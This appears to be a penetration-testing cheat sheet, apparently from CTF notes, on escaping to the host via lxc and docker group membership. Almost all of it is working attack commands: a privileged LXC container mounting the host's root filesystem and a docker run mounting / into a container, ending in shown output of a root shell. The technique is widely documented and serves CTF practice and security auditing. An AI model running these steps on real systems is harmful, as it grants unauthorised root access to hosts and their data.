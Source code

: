 title: LXC & Docker

# lxc / lxd

If the low privileged user is a member of the `lxc` group then we can abuse `lxc` to access the hosts file system.

* Download: [alpine.tgz](alpine.tgz) 
* GitHub: [saghul / lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder)
```
lxc image import ./alpine.tgz --alias myimage
lxd init
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

# docker

If the low privileged user is a member of the `docker` group then we can use `docker` to access the hosts file system as `root`

Download: [docker-alpine.tar](docker-alpine.tar)

First we import the image

```
╰─⠠⠵ sudo docker import docker-alpine.tar alpine:ctf  
sha256:f40cb3e62c23d080b5bfd2723165641fcee9036e5d0b80013af365b4fd2e9b76
```

Then we check for the `IMAGE ID`

```
╰─⠠⠵ sudo docker images                             
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              ctf                 f40cb3e62c23        2 seconds ago       5.61MB
```

We then use that `IAMGE ID` in our `docker` command

```
╰─⠠⠵ sudo docker run -v /:/mnt --rm -it f40cb3e62c23 /bin/sh
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/ # 
```